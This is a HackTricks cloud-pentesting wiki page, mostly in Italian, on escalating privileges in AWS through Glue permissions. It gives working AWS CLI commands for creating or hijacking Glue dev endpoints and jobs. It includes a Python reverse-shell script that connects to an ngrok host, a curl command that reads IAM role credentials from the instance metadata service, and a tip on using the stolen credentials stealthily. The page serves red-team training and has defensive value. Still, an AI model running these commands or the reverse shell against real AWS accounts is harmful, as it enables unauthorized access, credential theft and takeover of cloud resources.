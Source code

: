 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gli utenti con questi permessi possono **configurare un nuovo endpoint di sviluppo AWS Glue**, **assegnando un ruolo di servizio esistente assumibile da Glue** con permessi specifici a questo endpoint.

Dopo la configurazione, l'**attaccante può SSH nell'istanza dell'endpoint**, e rubare le credenziali IAM del ruolo assegnato:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Per scopi di stealth, è consigliato utilizzare le credenziali IAM dall'interno della macchina virtuale Glue.

**Impatto Potenziale:** Privesc al ruolo di servizio glue specificato.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gli utenti con questo permesso possono **modificare la chiave SSH** di un endpoint di sviluppo Glue esistente, **abilitando l'accesso SSH ad esso**. Questo consente all'attaccante di eseguire comandi con i privilegi del ruolo associato all'endpoint:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impatto Potenziale:** Privesc al ruolo del servizio glue utilizzato.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Gli utenti con **`iam:PassRole`** combinato con **`glue:CreateJob` o `glue:UpdateJob`**, e **`glue:StartJobRun` o `glue:CreateTrigger`** possono **creare o aggiornare un lavoro AWS Glue**, allegando qualsiasi **account di servizio Glue**, e avviare l'esecuzione del lavoro. Le capacità del lavoro includono l'esecuzione di codice Python arbitrario, che può essere sfruttato per stabilire una reverse shell. Questa reverse shell può quindi essere utilizzata per esfiltrare le **credenziali IAM** del ruolo allegato al lavoro Glue, portando a potenziale accesso non autorizzato o azioni basate sulle autorizzazioni di quel ruolo:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impatto Potenziale:** Privesc al ruolo del servizio glue specificato.

### `glue:UpdateJob`

Solo con il permesso di aggiornamento un attaccante potrebbe rubare le credenziali IAM del ruolo già attaccato.

**Impatto Potenziale:** Privesc al ruolo del servizio glue attaccato.

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
